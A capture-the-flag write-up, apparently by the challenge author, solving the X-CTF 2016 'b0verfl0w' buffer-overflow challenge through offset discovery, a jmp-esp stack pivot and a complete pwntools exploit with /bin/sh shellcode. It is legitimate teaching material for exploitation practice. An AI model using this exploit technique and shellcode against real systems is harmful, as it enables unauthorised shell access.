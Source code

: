 ```yaml
---
layout: post
title: X-CTF Quals 2016 - b0verfl0w (Pwn)
modified:
categories: blog
excerpt: "Write up for b0verfl0w an exploitation challenge I wrote for X-CTF quals 2016."
tags: []
image:
  feature:
date: 2016-04-22T01:03:15+08:00
share: true
comments: true
---
```


X-CTF is a capture the flag competition in Singapore organized by NUS Greyhats. The online qualifiers took place over the weekend of 9 - 10 April 2016. Halfway through the competition, we realize that the challenges were solved pretty quickly by the participants, and thus I wrote some new challenges. The following two challenges were by me.

# b0verfl0w
**Category:** Pwn  
**Description**
[b0verfl0w](/resources/files/x-ctf/c343c76a9bc18021a2ebda77730d85e1) is running at 188.166.226.181:4242.

---

# Solution

So from the name of the challenge, this is an obvious buffer overflow challenge. However, obvious it would not be as simple as a classic buffer overflow. In this case, we're given the binary without the source code, so first thing to do is to analyze the binary for the buffer overflow vulnerability, and to determine if there are any useful gadgets we can use to build an exploit.

We got a 32-bit ELF executable here.

{% highlight sh linenos %}
→ file *
c343c76a9bc18021a2ebda77730d85e1: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, not stripped
→ ./boverflow

======================

Welcome to X-CTF 2016!

======================
What's your name?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.Segmentation fault (core dumped)
{% endhighlight %}

The vulnerability is very obviously on the name input. There are many ways to continue from here, and what I am writing is just one of the way.

Using GDB with peda, I am able to quickly find the amount of offset required until the EIP register using the pattern search plugin.
{% highlight sh linenos %}
gdb-peda$ pattern create 100 /tmp/input
Writing pattern of 100 chars to filename "/tmp/input"
gdb-peda$ r < /tmp/input
Starting program: /home/vagrant/CTF/X-CTF/xctf-2016-challs/qualifiers/pwn/b0verfl0w/grader/b0verfl0w_dep/boverflow < /tmp/input

======================

Welcome to X-CTF 2016!

======================
What\'s your name?
Hello AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb.
Program received signal SIGSEGV, Segmentation fault.
gdb-peda$ pattern search
Registers contain pattern buffer:
EBP+0 found at offset: 32
EIP+0 found at offset: 36
{% endhighlight %}

So what this tells me is that I'll have to fill the first 36 bytes of input with junk before filling the 4 bytes with the memory address I'd like the program to jump to.

In a classical buffer overflow, what I'd do is to fill the 36 bytes with shellcode, and then modify the EIP value to jump to where my shellcode is located. However, this is only feasible if (1) I know the memory address of the shellcode, (2) DEP is not enabled and (3) if ASLR was not enabled, it'd be slightly easier to bruteforce the memory address of the shellcode.

In this case, DEP is disabled. However, we do not have any information of the memory layout or the libc addresses (which would allows us to craft a return-to-libc or ROP exploit).

However, upon closer inspection, you will notice that there are some ROP gadgets provided in the binary that could allow us to perform stack pivoting and thus execute our shellcode. Conveniently it's contained in a function called `hint` ;).

{% highlight objdump linenos %}
80484fd <hint>:
 80484fd:   55                      push   %ebp
 80484fe:   89 e5                   mov    %esp,%ebp
 8048500:   83 ec 24                sub    $0x24,%esp
 8048503:   c3                      ret
 8048504:   ff e4                   jmp    *%esp
 8048506:   c3                      ret
 8048507:   b8 01 00 00 00          mov    $0x1,%eax
 804850c:   5d                      pop    %ebp
 804850d:   c3                      ret
{% endhighlight %}

We see a `jmp $esp` followed by a `ret` instruction that would allow us to perform a stack pivot. 

Memory layout:  
| Shellcode | Offset | 0x08048504 | Shellcode to perform stack pivoting |

At the point when the program jumps to 0x08048504, $esp would be pointing at the start of `Shellcode to perform stack pivoting`, so what is needed here to do a stack pivot is `sub 0x28,$esp` followed by `jmp $esp` again. However, you need to convert the instructions into their respective hex representation. We perform a sub 0x28 because the `shellcode + payload + 0x08048504` takes up 40 bytes and we want the next `jmp $esp` to jump to the start of our shellcode.

For the shellcode portion, you can use any simple shellcode off the internet.

I wrote the exploit in python and used the pwntools library to simplify the entire exploitation process.  
Final exploit:
{% highlight python linenos %}
from pwn import *

r = remote('188.166.226.181', 4242)
Shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
Payload = "A"*13
JmpESPGadget = "\x04\x85\x04\x08"
ShellcodeStackPivot = "\x83\xec\x28\xff\xe4"
payload = Shellcode + Payload + JmpESPGadget + ShellcodeStackPivot
print payload
r.send(payload)
r.interactive()
{% endhighlight %}

Running our exploit provides us with a shell. :)

{% highlight bash linenos %}
$ cat flag.txt
XCTF{b0verfl0wed_w3ll_d0ne}
{% endhighlight %}

And we have our flag! 

